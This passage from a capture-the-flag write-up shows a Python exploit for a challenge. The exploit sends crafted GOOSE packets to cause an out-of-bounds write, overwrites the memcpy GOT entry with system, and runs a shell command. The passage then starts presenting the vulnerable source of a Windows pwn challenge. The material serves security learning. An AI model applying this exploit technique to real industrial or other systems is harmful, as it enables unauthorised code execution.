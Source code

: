 ```python
all_data = build_all_data(0x0,payload)
goose = build_goose(len(all_data))
pkt = combine_pkt(goose, all_data)
pkt = build_pkt(pkt)
send_pkt(pkt)

# edit existing dataSetValues
# parseAllData
# trigger oob write to overwrite adjacent MmsValue struct
payload = b"chmod 666 /flag"
payload = payload.ljust(0x18, b'\x00')
# 0x20 chunk PREV_INUSE | IS_MAPPED
payload += p64(0x25)
# 3 = type (bitstring), 0x80 = bit size
payload += p64(0x0000800000000003)
payload += p8(0x0)*5
# overwrite bitstring buf pointer with GOT of memcpy
payload += p64(elf.got['memcpy'])

payload = payload.ljust(get_overflow(0x18), b'\x00')

print("elementLength: ", get_overflow(0x18))

# overwrite memcpy got entry with system PLT stub
payload2 = p64(0x4010e0) + p64(0x4011f0)

#payload = b"A"*get_overflow(0x18)
all_data = build_all_data(248,payload, payload2)
goose = build_goose(len(all_data))
pkt = combine_pkt(goose, all_data)
pkt = build_pkt(pkt)
send_pkt(pkt)

io.interactive()
```
<h2 id="console-application-sec">ConsoleApplication1</h2>
ConsoleApplication1 was a windows pwn challenge. The source code for this challenge is very simple and small:
```cpp
#include <iostream>

int main()
{
    int64_t val, pos;
    int64_t* ptr = &val;

    std::cout << "Hello World!\n";

    while (1)
    {
        std::string cmd;
        std::cout << "Do?\n";
        std::cin >> cmd;

        switch (cmd[0])
        {
        case 'w':
            std::cout << "pos: ";
            std::cin >> pos;
            std::cout << "val: ";
            std::cin >> val;
            ptr[pos] = val;
            break;
```